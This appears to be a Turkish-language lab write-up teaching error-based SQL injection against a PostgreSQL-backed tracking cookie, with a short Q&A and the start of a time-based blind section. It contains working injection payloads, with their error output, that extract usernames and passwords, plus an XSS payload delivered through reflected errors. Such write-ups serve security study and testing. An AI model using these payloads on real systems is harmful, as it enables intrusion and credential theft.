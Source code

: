 Pekiii, bu sorguyu veritabanından bilgileri sızdırmak için kullanabiliriz.
```sql
-- Öncelikle veritabanında herhangi bir kısıtlamaya tabi tutulup tutulmadığımızı ölçelim.
47auKfqhlHFRVevy'AND 1=CAST((SELECT username FROM users)AS int)--' -- Sorgu
-- Çıktıda verinin bir kısmının bittiğini görüyoruz. Sorgu 95 karakterlik bir alanı kapsıyor.
Unterminated string literal started at position 95 in SQL SELECT * FROM tracking WHERE id = '47auKfqhlHFRVevy'AND 1=CAST((SELECT username FROM users)AS i'. Expected  char'
--Hem sorguyu hataya dayalı bir şekilde çıkarmaya bakacağız. Hemde 95 karakteri geçmeyecek. O yüzden baştaki id' yi siliyoruz. Where sorgusu kendisinin geriye bir veri döndürmesi gerekli. Trackingid olarak boş bıraksak bile AND operetörü ile geriye bir değer döndürdüğümüzde sorgu tamamlanmış olarak göründüğünden ayrıca bir WHERE hatası almıyoruz.
AND 1=CAST((SELECT username FROM users)AS int)-- Sorgu
-- Çıktı :
ERROR: more than one row returned by a subquery used as an expression
-- Şimdi yeni bir hata ile karşılaştık. Bu ifade sorgunun WHERE üzerinden yapılmayıp bir alt sorgu olarka ele alındığından dolayı ve 1 satıra (1 sayısı yani) karşı birden çok satır döndürdüğü için aldığımız bir hata. Bunu aşabilmek için sorguya LIMIT 1 ifadesi ile iki karşılaştırdığımız nesneyi eşitliyoruz.
AND 1=CAST((SELECT username FROM users LIMIT 1)AS int)-- Sorgu
-- Çıktı olarak istediğimiz veriyi yani kullanıcı adını hataya yazdırmayı başardık
ERROR: invalid input syntax for type integer: "administrator"
-- Aynı sorguyu parolaya erişmek için kullanabiliriz.
AND 1=CAST((SELECT password FROM users LIMIT 1)AS int)-- Sorgu
ERROR: invalid input syntax for type integer: "h66sntiqeof8m946yma1"
```

#### **İkinci kısım: Hata tabanlı SQLi ye yönelik sorular ?  :**
**Soru - 1) CAST işlevi farklı şekillerde kullanılabilir mi ?**
		Sorguyu daha da kısaltmanın bir yolu vardır. Normal sorgunun CAST alanını çıkararak ve sonuna ::int(dönüştürülmek istenen değer) yazarak gerçekleşir sorguda şöyle gözükür:
		`AND 1=(SELECT password FROM users LIMIT 1)::int`
**Soru - 2) Veri tipi doğrulamada bir veya birden fazla veri aynı satırda gösterilebilir mi ?** 
		Eğer girdinin ve çıktının bir sınırı yok ise veritabanına göre concat işlevi yapılarak çıktı genişletilir. `AND 1=(SELECT username||password FROM users LIMIT 1)::int--`
**Soru - 3) Peki LIMIT 1 ile ilk satırı aldığımıza göre diğer satırları almak için ne yapmamız lazım** 
		`AND 1=(SELECT username FROM users LIMIT 1 OFFSET 1)::int--`
**Soru - 4) `more than one row` hatasını en kolay nasıl aşabiliriz ?**
		` AND 1=(SELECT string_agg(username,',')FROM users)::int--` PostgreSQL de aggregate(toplayıcı) fonksiyonudur. bütün satırları tek bir liste haline getirir. `<ifade> , <ayırıcı> [ ORDER BY <kolon> ] ` şeklinde çalışır.
**Soru - 5) Başka bir sorgu yapısı kullanılabilir mi ?**
		Evet. Mantıksal tabanlı sorgular burada da kullanılabilir örnek: `'AND 1=(CASE WHEN(1=1)THEN 1/0 ELSE 1 END)-`
**Soru - 6) Hatayı siteye direkt yazdırıyor ise Başka saldırılara yol açabilir mi ?**
		Evet. Filtrelemeden direkt yazdırdığı için XSS gibi zafiyetler çalışabiliyor.
		{% raw %}`'AND (SELECT '&lt;script&gt;alert(2)&lt;/script&gt;'::int)--` {% endraw %}


# Time‑Based Blind SQL Injection:
Uygulama, SQL hatalarını yakalayıp kullanıcıya hiçbir fark göstermiyorsa (örneğin tüm hataları “bir sorun oluştu” sayfasına yönlendiriyorsa), error‑based yöntemler etkisiz kalır. Bu durumda, sorgu şartına bağlı olarak **zamansal gecikme** (delay) tetikleyerek true/false’i ölçeriz.
